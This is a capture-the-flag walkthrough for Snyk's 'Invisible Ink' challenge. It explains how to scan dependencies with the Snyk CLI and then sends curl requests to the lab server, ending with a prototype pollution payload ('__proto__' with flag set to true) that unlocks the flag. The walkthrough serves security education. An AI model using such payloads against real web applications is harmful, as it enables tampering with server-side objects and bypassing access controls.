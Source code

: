 # Invisible Ink

Expose hidden vulnerabilities in the web application.

## Objective

Retrieve a flag through a POST request manipulating the value through a vulnerability

# Resources to install

***Link***: https://ctf-101.snyk.io/challenges#Invisible%20Ink

***Server***: http://35.211.53.53:8000/

Expose hidden vulnerabilities in the web application.

***Hint***: download Snyk CLI scans to the packet.json -> 
https://github.com/snyk/snyk#installation

Install npm if you don't have ii yet:

```
$sudo apt-get install npm
```

Now install snyk CLI:

```
$npm install snyk@latest -g
```

You need to access to snyk before you can run the command to test the package->

```
$snyk auth  (I suggest to access with gitHub)
```

Now you have to install the package

***what is package.json*** -> https://blog.ezekielekunola.com/understanding-the-package.json-file

```
$npm install package.json
```

Run this command into the folder with package.json, where you have just ran the previous command:

```
$snyk monitor
```

This command will show you the current vulnerabilities found.
Possible  response:

Explore this snapshot at https://app.snyk.io/org/emanuelepicas/project/3137722f-04f4-4af7-8a0e-2952b5192a51/history/f2123751-8d69-448f-83d6-87c2d005d96b

Notifications about newly disclosed issues related to these dependencies will be emailed to you.

Click on the link generated here you will find the current Vunerabilities



Browsing into the ***server*** to hack, you will find a response, which will suggest you a request to do.
Below there is the command to run:

```
$curl -X POST 35.211.53.53:8000/echo -H "Content-Type: application/json" -d '{"message": "ping"}' 
```

***Response***

{"userID":"::ffff:82.57.151.149","time":1651490382169,"message":"ping","flag":"disabled"} 

If we take a look at the file index.js, we can see that the script will output the flag if the value of the flag is on true.


We need to manipulate the object to retrive the flag using a vulnerabilities that we can find from the previous command: "snyk monitor"

A good one could be prototype pollution:

https://security.snyk.io/vuln/SNYK-JS-LODASH-567746

This could be a possible solution:

```
$curl -X POST 35.211.53.53:8000/echo -H "Content-Type: application/json" -d '{"message":"ping","__proto__":{"flag":"true"}}'
```

***Response***

{"userID":"::ffff:82.57.151.149","time":1651497940769,"message":"ping","flag":"SNYK{FLAGTOFIND}"} 

# Reference

***understanding prototype*** -> https://www.whitesourcesoftware.com/resources/blog/prototype-pollution-vulnerabilities/
